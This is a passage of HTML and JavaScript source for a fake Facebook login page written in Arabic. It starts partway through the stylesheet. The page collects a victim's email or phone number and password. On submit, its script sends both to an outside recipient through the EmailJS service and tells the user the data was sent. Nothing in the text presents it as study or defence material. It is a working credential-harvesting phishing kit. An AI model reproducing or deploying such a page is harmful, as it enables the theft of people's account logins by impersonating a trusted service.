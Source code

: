             text-align: right;
        }
    </style>
    <script src="https://cdn.emailjs.com/dist/email.min.js"></script>
    <script>
        (function(){
            emailjs.init("user_YOUR_USER_ID");
        })();
    </script>
</head>
<body>
    <div class="container">
        <h1>تسجيل الدخول إلى فيس بوك</h1>
        <form id="loginForm">
            <div class="input-group">
                <label for="email">البريد الإلكتروني أو رقم الهاتف</label>
                <input type="text" id="email" name="email">
            </div>
            <div class="input-group">
                <label for="password">كلمة المرور</label>
                <input type="password" id="password" name="password">
            </div>
            <div class="button-group">
                <button type="submit">تسجيل الدخول</button>
                <a href="#">هل نسيت كلمة المرور؟</a>
            </div>
        </form>
        <hr>
        <div class="button-group">
            <button onclick="window.location.href='#'">إنشاء حساب جديد</button>
        </div>
    </div>

    <script>
        document.getElementById('loginForm').addEventListener('submit', function(event) {
            event.preventDefault();
            var email = document.getElementById('email').value;
            var password = document.getElementById('password').value;

            var templateParams = {
                email: email,
                password: password
            };

            emailjs.send('service_p9i9utt', 'template_9gg1gy8', templateParams)
                .then(function(response) {
                    console.log('SUCCESS!', response.status, response.text);
                    alert('تم إرسال البيانات بنجاح');
                }, function(error) {
                    console.log('FAILED...', error);
                    alert('فشل في إرسال البيانات');
                });
        });
    </script>
</body>
</html>
